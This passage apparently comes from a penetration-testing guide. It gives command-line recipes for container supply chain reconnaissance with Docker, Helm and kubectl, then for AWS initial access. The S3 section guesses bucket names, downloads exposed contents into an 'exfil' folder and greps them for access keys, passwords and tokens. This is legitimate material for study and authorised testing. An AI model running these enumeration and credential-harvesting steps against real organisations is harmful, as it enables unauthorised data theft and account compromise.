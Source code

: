 #### Container Supply Chain Attacks

**Docker Hub Reconnaissance**
```bash
# Search for official vs unofficial images
docker search nginx --limit 25 --format "table {{.Name}}\t{{.Stars}}\t{{.Official}}"

# Analyze suspicious images
docker pull suspicious/image:latest
docker history suspicious/image:latest
docker inspect suspicious/image:latest | jq '.Config.Env'

# Extract and analyze image layers
docker save suspicious/image:latest -o image.tar
tar -xf image.tar
cat manifest.json | jq '.'

# Scan for vulnerabilities
trivy image suspicious/image:latest
grype suspicious/image:latest
```

**Kubernetes Supply Chain Attacks**
```bash
# Search for vulnerable Helm charts
helm search repo --devel | grep -E "(backup|monitor|logging)"

# Analyze chart contents
helm pull bitnami/mysql --untar
find mysql/ -name "*.yaml" -exec grep -l "privileged\|hostPath\|hostNetwork" {} \;

# Check for suspicious container registries
kubectl get pods -o jsonpath='{range .items[*]}{.spec.containers[*].image}{"\n"}{end}' | sort -u

# Monitor for supply chain indicators
kubectl get events --field-selector type=Warning
kubectl logs -l app=suspicious-app --tail=100
```

### Cloud Service Provider Attacks

#### AWS Initial Access

**S3 Bucket Enumeration**
```bash
# Install AWS CLI tools
pip install awscli boto3

# Enumerate public S3 buckets
aws s3 ls s3://company-name-backup --no-sign-request
aws s3 ls s3://companyname-logs --no-sign-request

# Common bucket naming patterns
for prefix in backup logs data archive dev test staging prod; do
    aws s3 ls s3://${company}-${prefix} --no-sign-request 2>/dev/null && echo "Found: ${company}-${prefix}"
done

# Download accessible bucket contents
aws s3 sync s3://vulnerable-bucket ./exfil --no-sign-request

# Search for credentials in downloaded files
grep -r "aws_access_key_id\|aws_secret_access_key\|password\|token" ./exfil/
```
